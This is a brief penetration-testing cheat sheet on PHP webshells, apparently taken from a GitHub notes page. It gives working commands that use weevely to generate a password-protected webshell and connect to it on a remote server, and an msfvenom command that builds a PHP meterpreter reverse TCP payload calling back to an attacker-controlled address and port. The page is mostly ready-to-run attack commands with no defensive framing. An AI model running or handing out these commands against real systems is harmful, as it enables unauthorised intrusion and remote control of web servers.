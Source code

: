 # Webshells

## PHP

These are the most common types of shells we'll be turning to, as like it or not, PHP is probably the most common type of web server application.

### weevely

Using weevely we can create php webshells:

```
weevely generate password /root/webshell.php
```

Now we execute it, point it to the remote page and get a shell in return:

```
weevely "http://192.168.1.101/webshell.php" password
```

### msfvenom

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.101 LPORT=443 -f raw > shell.php
```



